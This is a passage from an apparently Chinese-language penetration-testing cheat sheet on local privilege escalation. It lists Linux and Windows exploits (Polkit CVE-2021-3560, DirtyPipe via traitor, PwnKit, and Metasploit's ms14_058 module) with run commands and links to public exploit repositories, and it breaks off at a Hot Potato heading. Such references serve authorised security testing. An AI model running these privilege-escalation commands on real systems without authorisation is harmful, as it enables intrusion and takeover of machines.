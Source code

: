 `https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation`

`./2. poc.sh`

### **DirtyPipe**

域：No

Local Admin: Yes

操作系统: Linux

类型: 0/1 Exploit

方法:

1.  `./traitor-amd64 –exploit kernel:CVE-2022-0847`
2.  `Whoami;id`

  

批注：[https://github.com/liamg/traitor/releases/tag/v0.0.14](https://link.zhihu.com/?target=https%3A//github.com/liamg/traitor/releases/tag/v0.0.14)

### **PwnKit**

域：No

Local Admin: Yes

操作系统: Linux

类型: 0/1 Exploit

方法:

1.  `./cve-2021-4034`
2.  `Whoami;id`

  

批注：[https://github.com/berdav/CVE-2021-4034](https://link.zhihu.com/?target=https%3A//github.com/berdav/CVE-2021-4034)

### **ms14\_058**

域：No

Local Admin: Yes

操作系统: Windows

类型: 0/1 Exploit

方法:

-   `msf > use exploit/windows/local/ms14_058_track_popup_menu`
-   `msf exploit(ms14_058_track_popup_menu) > set TARGET < target-id >`
-   `msf exploit(ms14_058_track_popup_menu) > exploit`

### **Hot Potato**

